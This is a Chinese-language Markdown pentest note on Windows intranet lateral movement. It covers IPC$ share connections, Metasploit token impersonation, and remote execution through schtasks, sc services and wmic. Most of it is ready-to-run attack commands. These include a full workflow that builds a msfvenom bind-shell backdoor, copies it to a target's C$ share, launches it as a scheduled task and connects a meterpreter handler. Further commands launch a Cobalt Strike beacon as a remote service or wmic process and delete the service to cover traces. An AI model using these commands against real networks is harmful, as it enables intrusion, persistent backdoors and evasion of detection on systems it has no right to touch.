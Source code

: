 # 内网渗透-横向移动

横向移动：对同网段的内网机器进行攻击



## 构建代理横向渗透

- 构建代理参考[内网多级代理](./内网多级代理.md)



## IPC连接(445端口共享连接)

IPC共享命名管道，连接445端口，提供账户密码后，可以进行默认文件共享及资源管理



**先决条件**

1. 开放139、445端口(默认开启)
2. 目标开启ICP共享服务(默认开启)
3. 管理员账号密码



**IPC默认共享**

查看共享文件：net share

1. 共享所有磁盘：C:\\ -> c$
2. Admin共享 C:\windows\ ->ADMIN$
3. IPC远程 IPC$

```tex
!!! 注意： SYSTEM 用户是无法建立IPC连接的
msf降权：
load incognito
list_token -u 
impersonate_token WIN-POVQ8FCTTO4\\Administrator

不用msf怎么降权？
把当前进程迁移到低权限进程中即可

```

建立IPC连接

​	net use \\\ip\ipc$ /user:administrator "[密码]"

查看已建立的连接 

​	net use

删除已建立的连接

​	net use \\192.168.1.101\c$ /delete 

IPC常见用法

​	dir \\192.168.1.101\c$

​	dir \\192.168.1.101\c$\windows

​	copy 1.txt \\192.168.1.101\c$

​	copy \\192.168.1.101\c$\2.txt  2.txt

​	windows常见的文件管理命令都能执行



## IPC + schtask(计划任务)

schtasks /create /s [目标ip] /u administrator /p "[密码]" /sc /MINUTE /mo 1 /tn [任务名] /tr "[绝对路径目标程序]"

创建一个每分钟执行一次指定程序的计划任务

如果已经建立IPC连接，可以略去凭据

schtasks /create /s [目标ip] /sc MINUTE /mo 1 /tn [任务名] /tr "[绝对路径目标程序]"

```tex
# schtask横向移动流程

1. 建立IPC连接 
cmd> net use \\192.168.1.101\ipc$  /user:administrator "teamssix.com"
cmd> net use  

2. 上传msfvenom正向后门
VPS_shell> msfvenom -p windows/x64/meterpreter/bind_tcp lport=10001 -f exe -o bind10001.exe 
上传后门到第一台机器，再通过第一台机器的IPC上传到第二台机器
meterpreter> upload bind10001.exe ./
cmd> copy bind10001.exe \\192.168.1.101\c$
cmd> dir \\192.168.1.101\c$

3. 创建计划任务，运行后门
cmd> schtasks /create /s 192.168.1.101 /sc MINUTE /mo 1 /tn test /tr "C:\bind10001.exe"

4. 连接后门，上线 meterpreter
meterpreter> run autoroute -s 192.168.1.0/24
msfconsole> handler -p windows/x64/meterpreter/bind_tcp -H 192.168.1.101 -P 10001

5. 删除计划任务
schtasks /delete /s 192.168.1.101 /tn test /f

```



## IPC + SC(services controller)

```tex
# cobalt strike-SC横向移动流程

1. 在192.168.1.101 机器上创建一个服务，服务的名字 testservice， 服务的启动路径是C:\beacon.exe
sc \\192.168.1.101 create testservice binpath= 'C:\beacon.exe'

2. 查看192.168.1.101机器 testservice服务的详细信息
sc \\192.168.1.101 qc testservice

3. 启动192.168.1.101 的 testservice 服务，其实就是启动C：\beacon.exe
sc \\192.168.1.101 testservice

4. 删除192.168.1.101的 testservice服务，清除痕迹
sc \\192.168.1.101 delete testservice

```



## IPC + WMIC

```tex
# cobalt strike-WMIC横向移动

1. 建立IPC连接

2. 查询远程机器进程信息
wmic /node:192.168.1.101 /user:administrator /password:teamssix.com process list brief

- 如果已经建立了IPC连接，凭据信息可以省略
wmic /node:192.168.1.101  process list brief

3. 在远程机器开启进程: 执行命令 -> wmic执行命令没有回显
wmic /node:192.168.1.101 process call create "cmd.exe /c ipconfig"

- 在远程机器开启进程: 执行命令 -> wmic执行命令查看回显
wmic /node:192.168.1.101 process call create "cmd.exe /c ipconfig > C:\hahaha.txt"
type \\192.168.1.101\c$\hahaha.txt

4. 在远程机器开启进程: 执行后门 
wmic /node:192.168.1.101 process call create "C:\beacon.exe"

```



# H1

## H2

### H3

